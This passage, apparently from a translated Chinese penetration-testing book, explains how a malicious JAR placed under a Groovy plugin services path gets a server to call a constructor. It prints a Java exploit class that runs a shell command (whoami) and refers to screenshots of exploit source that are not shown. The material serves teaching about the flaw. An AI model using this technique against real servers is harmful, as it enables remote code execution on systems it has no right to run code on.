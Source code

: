 我们可以使用一种方法来处理 ZIP（JAR）文件，并检查特定目录中的两种方法。请注意以下截图中显示的最后几行 - 有一个名为`processRunners()`的函数：

![](img/4a8afec0-a923-46a6-aaf1-35ae68720053.png)

通过查看以下函数，我们可以看到正在调用`newInstance()`。这意味着可以调用一个构造函数：

![](img/d232cc35-0555-4e5a-9dbb-574883056dba.png)

简而言之，如果我们创建一个恶意的 JAR 文件，并将一个类文件放在`META-INF/services/org.codehaus.groovy.plugins.Runners`文件夹中，我们就能够调用一个包含我们代码的构造函数，如下所示：

```
public class Exploit {
public Exploit(){
try {
String[] cmds = {"/bin/bash", "-c", "whoami"};
java.lang.Runtime.getRuntime().exec(cmds);
} catch (Exception e) { }
}
}
```

上述代码将导致代码执行！

因此，如果我们回到利用的源代码，如下图所示，我们应该能够完全理解它的工作原理：

![](img/16c4f78f-0971-437e-a301-7a0c6fd89cdf.png)
